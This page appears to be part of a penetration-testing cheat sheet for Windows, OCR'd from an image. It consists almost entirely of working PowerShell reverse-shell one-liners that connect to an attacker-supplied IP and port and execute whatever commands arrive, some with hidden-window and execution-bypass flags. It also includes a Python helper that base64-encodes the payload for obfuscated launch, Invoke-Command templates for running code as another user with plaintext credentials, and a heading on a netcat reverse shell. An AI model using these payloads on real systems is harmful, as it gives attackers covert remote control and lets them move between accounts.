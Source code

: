 ```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<IP>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
powershell.exe -nop -w hidden -e $client = New-Object System.Net.Sockets.TCPClient('"+LHOST+"',"+LPORT+");$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Base64 encoded payload in python

```python
#/usr/bin/python3
import base64
lhost = '<LHOST>'
lport = '<LPORT>'
payload = '$client = New-Object System.Net.Sockets.TCPClient("'+lhost+'",'+lport+');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
print("powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode())
```

#### Run code as another user

```
powershell.exe -c "$user='<username>'; $pass='<password>'; try { Invoke-Command -ComputerName <hostname> -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) -ScriptBlock {<code>}} catch { echo $_.Exception.Message }" 2>&1
#In case of auth error use SSP
powershell.exe -c "$user='<username>'; $pass='<password>'; try { Invoke-Command -ComputerName <hostname> -Authentication CredSSP -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) -ScriptBlock {<code>}} catch { echo $_.Exception.Message }" 2>&1
```

#### Reverse shell as another user - netcat version

Download netcat executable for windows on target, then use it to open a reverse shell under the context of another user
